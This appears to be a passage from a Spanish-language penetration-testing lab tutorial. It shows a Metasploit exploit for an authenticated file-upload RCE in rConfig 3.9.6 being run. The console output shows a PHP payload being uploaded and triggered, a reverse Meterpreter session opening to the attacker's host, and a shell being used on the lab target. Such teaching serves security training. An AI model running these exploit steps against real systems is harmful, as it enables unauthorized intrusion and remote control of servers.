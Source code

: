 Con este exploit seleccionado, podemos listar las opciones, ingresar los ajustes adecuados específicos para nuestro entorno de red y lanzar el exploit.

### Ejecutar el Exploit

```plaintext
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > exploit
```

```plaintext
plaintextCopiar código[*] Iniciado manejador TCP reverso en 10.10.14.111:4444
[*] Ejecutando verificación automática ("set AutoCheck false" para deshabilitar)
[+] Se encontró la versión 3.9.6 de rConfig!
[+] La víctima parece ser vulnerable. ¡Se encontró una versión vulnerable de rConfig!
[+] ¡Iniciamos sesión correctamente!
[*] Subiendo el archivo 'olxapybdo.php' que contiene la carga útil...
[*] Activando la carga útil...
[*] Enviando etapa (39282 bytes) a 10.129.201.101
[+] Eliminado olxapybdo.php
[*] Sesión Meterpreter 1 abierta (10.10.14.111:4444 -> 10.129.201.101:38860) a 2021-09-27 13:49:34 -0400
```

```plaintext
meterpreter > dir
```

| Modo             | Tamaño | Tipo | Última modificación       | Nombre          |
| ---------------- | ------ | ---- | ------------------------- | --------------- |
| 100644/rw-r--r-- | 673    | fil  | 2020-09-03 05:49:58 -0400 | ajax-loader.gif |
| 100644/rw-r--r-- | 1027   | fil  | 2020-09-03 05:49:58 -0400 | cisco.jpg       |
| 100644/rw-r--r-- | 1017   | fil  | 2020-09-03 05:49:58 -0400 | juniper.jpg     |

Podemos ver en los pasos descritos en el proceso de explotación que este exploit:

* Verifica la versión vulnerable de rConfig
* Se autentica con el inicio de sesión web de rConfig
* Sube una carga útil basada en PHP para una conexión de shell reversa
* Elimina la carga útil
* Nos deja con una sesión shell de Meterpreter

### Interactuar con la Shell

```plaintext
meterpreter > shell
```

```plaintext
Process 3958 created.
Channel 0 created.
dir
ajax-loader.gif  cisco.jpg  juniper.jpg
ls
ajax-loader.gif
cisco.jpg
juniper.jpg
```
